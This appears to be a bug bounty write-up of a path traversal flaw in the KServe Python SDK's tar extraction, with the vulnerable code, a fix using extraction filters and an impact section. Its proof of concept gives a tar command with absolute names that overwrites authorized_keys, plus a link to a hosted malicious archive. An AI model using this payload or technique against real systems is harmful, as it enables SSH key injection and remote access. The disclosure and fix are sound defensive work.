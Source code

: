 ```yaml
---
layout: post
title:  "Huntr: Arbitrary File Overwrite in Kserve Storage.download"
date:  2024-05-26 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Huntr: Arbitrary File Overwrite in Kserve Storage.download API

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> 0.12.1

## Description

The Kserve python SDK provide extra [`Storage`](https://github.com/kserve/kserve/tree/master/python/kserve#pip-install) module to download model from [`storage providers`](https://github.com/kserve/kserve/tree/master/python/kserve#kserve-python-server). The [`Storage.download`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L63) is called to download and extract the model to file system. However, the function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. 

Using above python sdk, a victim may download model from internet. Fisrt, [`Storage.download`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L63) calls [`Storage._download_from_uri`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L695) to handle url download, and `Storage._download_from_uri` calls [`Storage._unpack_archive_file`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L710) to extract the tarball model file.

The [`Storage.download`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L63) function:

```
@staticmethod
def download(uri: str, out_dir: str = None) -> str:
    ...
    if uri.startswith(_GCS_PREFIX):
        Storage._download_gcs(uri, out_dir)
    elif uri.startswith(_S3_PREFIX):
        Storage._download_s3(uri, out_dir)
    elif uri.startswith(_HDFS_PREFIX) or uri.startswith(_WEBHDFS_PREFIX):
        Storage._download_hdfs(uri, out_dir)
    elif re.search(_AZURE_BLOB_RE, uri):
        Storage._download_azure_blob(uri, out_dir)
    elif re.search(_AZURE_FILE_RE, uri):
        Storage._download_azure_file_share(uri, out_dir)
    elif is_local:
        return Storage._download_local(uri, out_dir)
    elif re.search(_URI_RE, uri):
        return Storage._download_from_uri(uri, out_dir)
```

The [`_download_from_uri`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L624) function:

```
@staticmethod
def _download_from_uri(uri, out_dir=None):
    url = urlparse(uri)
    ...
    local_path = os.path.join(out_dir, filename)

    with requests.get(uri, stream=True, headers=headers) as response:
        ...
        if encoding == "gzip":
            stream = gzip.GzipFile(fileobj=response.raw)
            local_path = os.path.join(out_dir, f"{filename}.tar")
        else:
            stream = response.raw
        with open(local_path, "wb") as out:
            shutil.copyfileobj(stream, out)

    if mimetype in ["application/x-tar", "application/zip"]:
        Storage._unpack_archive_file(local_path, mimetype, out_dir)
```

The [`_unpack_archive_file`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L700) function extracts tarball without sanitization:

```
@staticmethod
def _unpack_archive_file(file_path, mimetype, target_dir=None):
    if not target_dir:
        target_dir = os.path.dirname(file_path)

    try:
        logger.info("Unpacking: %s", file_path)
        if mimetype == "application/x-tar":
            archive = tarfile.open(file_path, "r", encoding="utf-8")
        else:
            archive = zipfile.ZipFile(file_path, "r")
        archive.extractall(target_dir)
        archive.close()
```

The Python documentation explains us that tarfiles may have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar` to public server. 

I have uploaded one malicous tar file to gitlab for testing: [https://gitlab.com/1159309551xcz/lfs/-/raw/main/hack.tar?ref_type=heads](https://gitlab.com/1159309551xcz/lfs/-/raw/main/hack.tar?ref_type=heads)

If anyone now downloads tar using `Storage.download` api, causing automatically extracting the malicous tar file and overwrite files silently.

```
from kserve.storage import Storage
Storage.download("https://gitlab.com/1159309551xcz/lfs/-/raw/main/hack.tar?ref_type=heads")
```
We can check the paylod `authorized_keys` has been overwriten.
```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
```

Tested on Google Colab: [https://colab.research.google.com/drive/1zwUsMUbTlDqGJdtLrhIo22HCkgzhQAes?usp=sharing](https://colab.research.google.com/drive/1zwUsMUbTlDqGJdtLrhIo22HCkgzhQAes?usp=sharing)

![poc](https://live.staticflickr.com/65535/53746993646_c00cf1cf03_o_d.png)


## Fix

```
@staticmethod
def _unpack_archive_file(file_path, mimetype, target_dir=None):
    # See: https://docs.python.org/3/library/tarfile.html#extraction-filters
    def extraction_filter(member, path):
        """Run tarfile.tar_filter, but raise the expected ValueError"""
        # This is only called if the current Python has tarfile filters
        try:
            return tarfile.tar_filter(member, path)
        except tarfile.FilterError as exc:
            raise ValueError(str(exc))

    if not target_dir:
        target_dir = os.path.dirname(file_path)

    try:
        logger.info("Unpacking: %s", file_path)
        if mimetype == "application/x-tar":
            archive = tarfile.open(file_path, "r", encoding="utf-8")
        else:
            archive = zipfile.ZipFile(file_path, "r")
        archive.extraction_filter = extraction_filter
        archive.extractall(target_dir)
        archive.close()

```

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

### Web Servers

On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L710](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L710)
